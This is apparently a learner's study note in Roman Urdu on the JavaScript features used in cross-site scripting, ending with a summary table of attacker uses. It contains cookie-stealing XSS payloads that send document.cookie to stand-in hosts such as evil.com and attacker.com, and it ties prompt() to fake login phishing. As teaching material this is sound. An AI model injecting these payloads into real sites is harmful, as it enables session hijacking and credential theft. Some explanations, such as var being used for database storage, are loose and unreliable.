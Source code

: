 JavaScript main agr hum **alert()** use krty hain ky website main XSS execute hoo rha hai ya nhi agr execute hoo rha hua too aik pop up ajaye ga

---

**prompt()** hum kisi command ky sath ius waqt use krty hain jab hamy user sy input chahie hota hai example agr hum likhty hain prompt("Enter your password") too website py aik display hota hai Enter Your Password phir user ius main apna password daaly ga

---

**var** hum taab lagaty hain jab hum user ki value ko apny database main store karna chahty hoon

**let** var aur let dono value store karte hain — lekin let zyada safe hota hai.

---

## Difference Between Var/let

Value store karna

**var**

var name = "Habib";

- Old JavaScript version ka style hai.

- Function-level scope rakhta hai.

**let**

let age = 18;

- New aur modern style hai (ES6+).

- Block-level scope rakhta hai.

---

**document.cookie** — (Cookies churaana)

document.cookie ek JavaScript command hai jo browser se current website ki cookie value nikalta hai.

### ⚠️ XSS mein is kaam ke liye use hota hai:

**var c = document.cookie;
alert(c); // tumhari current session ki cookies dikha dega**

### Agar attacker ka XSS payload chalta hai, toh wo ye kar sakta hai:

**fetch("https://evil.com/steal?cookie=" + document.cookie);**

### 🕵️‍♂️ Matlab: Victim ki session cookie attacker ko chali jaayegi = session hijack

---

**fetch()** — (Data dusri jagah bhejna)

fetch() ka kaam hota hai HTTP request bhejna JavaScript se.

### Example:

**fetch("https://attacker.com/steal?info=hello");**

🧠 Attacker isse user ka input, cookie, ya password apni site pe secretly bhej sakta hai.

### XSS exploit:

**fetch("https://evil.com/log?cookie=" + document.cookie);**

---

### Quick Summary

**alert()**	Popup show karta hai	

XSS main use: XSS payload test karna

**prompt()**	User se input leta hai

XSS main use: Fake login / phishing

**var or let**	Value store karta hai
XSS main use: Cookie ya user data store karna

**if / else** Logic lagana
XSS main use:	Kab kya run ho

**document.cookie**	User ki cookies nikalna
XSS main use:	Session hijack

**fetch()** Data dusri site pe bhejna
XSS main use: Data leak (exfiltrate)

**img.src** 	Image ke zariye request bhejna	
XSS main use: Alternate data leak meth

if else bhi 100% samj agya


